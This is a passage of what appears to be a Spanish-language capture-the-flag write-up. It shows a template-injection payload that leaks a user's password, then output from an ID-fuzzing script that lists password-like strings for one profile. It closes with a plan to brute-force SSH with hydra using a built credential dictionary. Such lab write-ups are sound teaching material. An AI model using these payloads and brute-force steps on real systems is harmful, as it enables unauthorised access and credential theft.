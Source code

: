 ```
{{ users.0.password }}
```

```shell
python3 fuzzIDs.py
```

Info:

```
🔍 Buscador específico del perfil /profile/37
==================================================
[*] Escaneando endpoints /like/{id} (0-100) para perfil 37...

[*] Escaneando endpoints /likes/<built-in function id> (0-100) para perfil 37...
[+] ENCONTRADO: /likes/1 -> /profile/37 - title="Zer0D@yH@ck"
[+] ENCONTRADO: /likes/2 -> /profile/37 - title="H3xHunt3r!"
[+] ENCONTRADO: /likes/8 -> /profile/37 - title="Byt3B@nd!t123"
[+] ENCONTRADO: /likes/12 -> /profile/37 - title="C0d3Br3@k!"
[+] ENCONTRADO: /likes/17 -> /profile/37 - title="Tr0j@nH0rse!"
[+] ENCONTRADO: /likes/18 -> /profile/37 - title="Tr0j@nH0rse!"
[+] ENCONTRADO: /likes/19 -> /profile/37 - title="aze"
[+] ENCONTRADO: /likes/23 -> /profile/37 - title="mYd4rks1dEisH3re"

============================================================
RESULTADOS - PERFIL 37 ENCONTRADO EN:
============================================================
Endpoint /likes/1 -> /profile/37 - title="Zer0D@yH@ck"
Endpoint /likes/12 -> /profile/37 - title="C0d3Br3@k!"
Endpoint /likes/17 -> /profile/37 - title="Tr0j@nH0rse!"
Endpoint /likes/18 -> /profile/37 - title="Tr0j@nH0rse!"
Endpoint /likes/19 -> /profile/37 - title="aze"
Endpoint /likes/2 -> /profile/37 - title="H3xHunt3r!"
Endpoint /likes/23 -> /profile/37 - title="mYd4rks1dEisH3re"
Endpoint /likes/8 -> /profile/37 - title="Byt3B@nd!t123"

==================================================
BÚSQUEDA RÁPIDA ADICIONAL:
==================================================
[*] Búsqueda rápida del perfil 37 en endpoints /likes/...
✅ ENCONTRADO: /likes/1 -> /profile/37 - title="Zer0D@yH@ck"
✅ ENCONTRADO: /likes/2 -> /profile/37 - title="H3xHunt3r!"
✅ ENCONTRADO: /likes/8 -> /profile/37 - title="Byt3B@nd!t123"
✅ ENCONTRADO: /likes/12 -> /profile/37 - title="C0d3Br3@k!"
✅ ENCONTRADO: /likes/17 -> /profile/37 - title="Tr0j@nH0rse!"
✅ ENCONTRADO: /likes/18 -> /profile/37 - title="Tr0j@nH0rse!"
✅ ENCONTRADO: /likes/19 -> /profile/37 - title="aze"
✅ ENCONTRADO: /likes/23 -> /profile/37 - title="mYd4rks1dEisH3re"

🎯 Búsqueda completada. Total de apariciones del perfil 37: 8
```

Ya con toda esta informacion vamos a crear un diccionario de usuarios y contraseñas para intentar tirar fuerza bruta por `SSH` con `hydra` a ver si hay suerte.
